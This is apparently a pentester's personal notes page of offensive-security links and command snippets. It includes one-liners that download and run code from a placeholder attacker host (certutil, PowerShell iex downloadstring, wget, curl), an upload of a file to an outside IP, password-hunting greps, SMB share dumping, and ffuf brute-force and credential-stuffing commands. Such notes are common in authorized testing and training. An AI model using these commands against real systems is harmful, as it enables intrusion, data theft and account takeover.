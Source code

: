 # My notes

###### My General Notes.

  This notes contains link of tools, link of cheatsheets, Commands etc.

## Python pip

1. `Python2 -m pip YOUR_COMMAND` OR `pip2 YOUR_COMMAND`

2. `Python3 -m pip YOUR_COMMAND` OR `pip3 YOUR_COMMAND`

## Python3 server

1. Local server in current directory: `python3 -m http.server PORT`

2. Local server in specified directory:

    `python3 -m http.server PORT --directory DIRECTORY`

## Msfvenom CheatSheet

[MSFVenom - CheatSheet - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

## Peas Family

LinPeas and Winpeas located ate my [`Privesc_scripts`](https://github.com/CalegariMindSec/Privesc_scripts) repository.

[GitHub - carlospolop/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/carlospolop/PEASS-ng)

## Windows PrivEsc Scripts

[`My Privesc Scripts - Windows`](https://github.com/CalegariMindSec/Privesc_scripts/tree/main/Windows_Privesc)

[PowerSploit/Privesc at master · PowerShellMafia/PowerSploit · GitHub](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)

[GitHub - 7Ragnarok7/Windows-Exploit-Suggester-2: A tool to recommend available exploits for Windows Operating Systems](https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2)

[GitHub - r3motecontrol/Ghostpack-CompiledBinaries: Compiled Binaries for Ghostpack (.NET v4.0)](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

[GhostPack · GitHub](https://github.com/GhostPack)

### Windows PrivEsc Kernel Exploits

[Windows Exploits](https://github.com/abatchy17/WindowsExploits)

[GitHub - SecWiki/windows-kernel-exploits: windows-kernel-exploits Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)

[Exploitdb-bin-sploits/bin-sploits at master · offensive-security/exploitdb-bin-sploits · GitHub](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)

### Windows PrivEsc CheatSheet

[Windows Local Privilege Escalation - HackTricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

[Notes TCM Course](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)

[PayloadAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Linux PrivEsc Cheatsheet

[`My Privesc Scripts - Linux`](https://github.com/CalegariMindSec/Privesc_scripts/tree/main/Linux_Privesc)

[Linux Privilege Escalation - HackTricks Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[PayloadAllTheThings - Linux ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

### Windows Binaries

[LOLBAS Project](https://lolbas-project.github.io/)

### Unix Binaries

[GTFOBins](https://gtfobins.github.io/)

### Listerners (Better Alternatives to Netcat)

[Netpwn](https://github.com/anthares101/netpwn)

[Pwncat](https://github.com/calebstewart/pwncat)

### File Download - Windows

1. ```powershell
   certutil.exe -urlcache -f http://IP:PORT/FILE.exe FILE.exe
   ```

2. ```powershell
   powershell -c (new-object System.Net.WebClient).DownloadFile('http://IP:PORT/FILE', 'C:\FULL\PATH\FILE')
   ```

3. ```powershell
   powershell.exe -command iwr -Uri http://IP:PORT/FILE -OutFile "C:\PATH\FILE"
   ```

4. ```powershell
    powershell.exe wget http://IP:PORT/FILE -OutFile FILE
   ```

5. ```powershell
   powershell iex(new-object net.webclient).downloadstring('http://IP:PORT/FILE')
   ```

6. ```powershell
   Start-BitsTransfer -Source https://IP:PORT/FILE -Destination "C:\FULL\PATH\FILE"
   ```
7. ```python3
   impacket-smbserver share . -smb2support (Attacker Machine)
   copy C:\File\To\PATH \\AttackerIP\share\
   ```

### File Upload - Windows

1. ```powershell
   powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
   ```

### File Download - Linux

1. ```bash
   wget http://IP:PORT/FILE
   ```

2. ```bash
   curl http://IP:PORT/FILE -o FILE
   ```

### Python3 tty Shell Spawning

1. ```python
   python -c 'import pty; pty.spawn("/bin/sh")'
   ```

2. ```python
   python3 -c 'import pty; pty.spawn("/bin/sh")'
   ```

### Active Directory Exploitation

[GitHub - S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet: A cheat sheet that contains common enumeration and attack methods for Windows Active Directory.](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
[CME cheat sheet](https://wiki.porchetta.industries/)
[Kerberos Attack](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Reverse shell

[Reverse Shell Generator](https://www.revshells.com/)
[Reverse shell cheat sheet PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Find Passwords Linux

  *
      ```
      grep --color=auto -rnw '/' -ie "Password" --color=always 2>/dev/null
      ```

### Download Scripts From SBM Netlogon and Sysvol

  *
    ```
    smbmap -u <user> -p '<password>' -d <domain> -H <dc-ip> -R SYSVOL --depth 10 -A "^.*\.(vbs|ps1|bat|vbe)$"
    ```

  *
    ```
    smbmap -u <user> -p '<password>' -d <domain> -H <dc-ip> -R NETLOGON --depth 10 -A "^.*\.(vbs|ps1|bat|vbe)$"
    ```

### FFUF Brute Force And Credential Stuffing

  * Brute Force - Example:
    ```
    ffuf -request req.txt -w xato-net-10-million-passwords-10000.txt -request-proto http -fc 401
    ```

  * Credential Stuffing - Example:
    ```
    ffuf -request req.txt -w user:FUZZ1 -w pass:FUZZ2 -request-proto http -mode pitchfork -x http://127.0.0.1:8080 -fc 401
    ```

### Kali Linux Windows Features

  * 1 ) [pwsh](https://www.kali.org/tools/powershell/) - Powershell Terminal
  * 2 ) [wine](https://www.winehq.org/) - Run Run Windows applications on Linux, BSD, Solaris
    * 2.1) [Install](https://techviewleo.com/how-to-install-wine-on-kali-linux/)
  * 3 ) [mono](https://www.mono-project.com/) - Mono is a software platform designed to allow developers to easily create cross platform applications
    * 3.1) [Install](https://linuxize.com/post/how-to-install-mono-on-ubuntu-20-04/)
  * 4 ) [ILspycmd](https://github.com/icsharpcode/ILSpy/tree/master/ICSharpCode.ILSpyCmd) - ILSpy is the open-source .NET assembly browser and decompiler.
    * 4.1) [Install](https://www.nuget.org/packages/ilspycmd/)
    * 4.2) [Usage Example - HTB Support Machine Writeup]()
    * 4.3) **Command example:** ilspycmd FILE.exe -p -o /Path/To/File/

### Powershell B64 convert file

```powershell
[convert]::ToBase64String((Get-Content -path "FILE" -Encoding byte))
```

### Password Wordlists

Usar [QbitTorrent](https://www.qbittorrent.org/download) para download.

	* https://github.com/berzerk0/Probable-Wordlists/blob/master/Downloads.md
	* https://github.com/ohmybahgosh/RockYou2021.txt
